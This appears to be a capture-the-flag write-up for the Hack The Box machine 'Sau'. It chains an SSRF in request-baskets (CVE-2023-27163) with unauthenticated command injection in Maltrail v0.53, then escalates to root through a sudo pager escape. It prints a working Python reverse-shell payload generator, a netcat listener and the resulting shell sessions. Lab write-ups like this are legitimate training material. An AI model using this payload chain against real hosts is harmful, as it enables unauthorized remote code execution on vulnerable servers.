 # Sau

## Enumeration(nmap):
Initial: `nmap -vv -sS -oN nmap/init -A 10.129.30.180`
Found open 
	- 22 ssh
	- 80 http
	- 55555 unknown

---

HTTP Service on port 80 is unreachable so i tried to access
the service running on 55555 to see if it's a website and success.
The services hosted is an http request inspector
![/web of 55555](screenshots/home-page-req-bask.png)

## Research
Before trying anything else i saw at that the footer contains 
the software and the version used `Powered by request-baskets | Version: 1.2.1`
so i just searched to see if any public CVE's exist. I went 
to the github repo of [request baskets](https://github.com/darklynx/request-baskets)
and straight up to the issues and sure enough a [CVE](https://github.com/entr0pie/CVE-2023-27163/tree/main) was present

![issues](screenshots/git-issues-req-bask.png)
So an SSRF vulnerability (CVE-2023-27163) is present and since i saw open port 80
but cannot access it, i asume it blocks external ips
or just has a whitelist so i attempt to take a sneek
peek 

## Exploitation
![first use of cve](screenshots/ssrf-for-home-of-80.png)
![home page of 80](screenshots/local-home-page-80.png)

The service running on port 80 is Powered by Maltrail (v0.53) 
which after searching has [Unauthenticated OS Command Injection Maltrail <= v0.54 (Did not recieve a CVE)](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)
After locating a [POC](https://github.com/spookier/Maltrail-v0.53-Exploit) written in python,
i only took the curl_cmd function cause in order to get rce i have 
to chain the two vulnerabilities i found, i only want the data 
porivided by the function to use as url parameters,
in a sense this is trial and error cause i don't actualy 
know if the service accepts the data as url parameters
so this was done blindly but let's attempt it

```py
import base64

def main():
	my_ip = "10.10.14.87"
	my_port = 4444
	target_url = "http://127.0.0.1/login"
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()
	parameters = f"username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`"
	print(parameters)

if __name__ == "__main__":
	main()
```

## RCE:
![payload generation](screenshots/payload-gen.png)

After i generated the payload i went to [CyberChef](https://gchq.github.io/CyberChef/) and URL-Encoded it
![payload html encoding](screenshots/cyberchef.png)

Before executing the exploit i start a netcat listener on port 4444
```sh
nc -l 4444
```
And.....
![rce](screenshots/rce.png)


Now i'm able to execute command on the remote machine 
within the terminal so i go and retrieve the flag.
```sh
➜  Sau nc -l 4444
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$
$ ls -la /home/puma
ls -la /home/puma
total 32
drwxr-xr-x 4 puma puma 4096 Jun 19  2023 .
drwxr-xr-x 3 root root 4096 Apr 15  2023 ..
lrwxrwxrwx 1 root root    9 Apr 14  2023 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15  2023 .cache
drwx------ 3 puma puma 4096 Apr 15  2023 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .viminfo -> /dev/null
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Dec 30 18:11 user.txt
$ cat /home/puma/user.txt
cat /home/puma/user.txt
HTB{Us3R_FL4G_R3dUct3d}
$
```

In order to enumerate and attempt to escalate my privileges
i first want to have a full tty shell

## Full TTY:
[Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

![sudo list](screenshots/sudo.png)

Okay so i didn't have to do much digging the hard part is over,
now when executing this command you will be prompted to an environment 
like vim/less so the only thing i have to do is **execute->** `!` the **program->** `sh` and since
the parrent process has root privileges by sudo, the resulting shell will have the same privileges.

![getting-root](screenshots/priv-esc.png) 
```sh
# cd /root
cd /root
# ls
ls
go  root.txt
# cat root.txt
cat root.txt
HTB{R00t_FL4G_R3dUct3d}
#
```


# Resources:
https://github.com/darklynx/request-baskets/issues/91
https://github.com/entr0pie/CVE-2023-27163/tree/main
https://github.com/spookier/Maltrail-v0.53-Exploit
https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/
